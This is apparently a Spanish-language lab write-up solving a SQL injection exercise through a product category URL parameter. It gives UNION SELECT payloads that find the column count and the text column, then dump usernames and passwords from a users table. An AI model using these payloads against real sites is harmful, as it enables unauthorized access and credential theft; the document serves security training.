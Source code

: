 Tenemos el siguiente laboratorio:
![[Pasted image 20240517154643.png]]
Cuando entramos en alguna de las categorías, vemos que se cambia la url:
![[Pasted image 20240517154709.png]]
A continuación, determinamos el número de columnas, las cuales son dos:
```bash
'+UNION+SELECT+NULL,'abc'--
```
![[Pasted image 20240517154832.png]]
Donde vemos que sólo una de ellas contiene texto:
```bash
Accessories'+UNION+SELECT+'texto','texto'--
```
![[Pasted image 20240517154931.png]]
```bash
Accessories'+UNION+SELECT+NULL,'texto'--
```
![[Pasted image 20240517155102.png]]
Ahora podemos usar el siguiente payload para volcar el contenido de la tabla users:
```bash
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
![[Pasted image 20240517155212.png]]
Y con estas credenciales ya habremos resuelto el laboratorio:
![[Pasted image 20240517155249.png]]
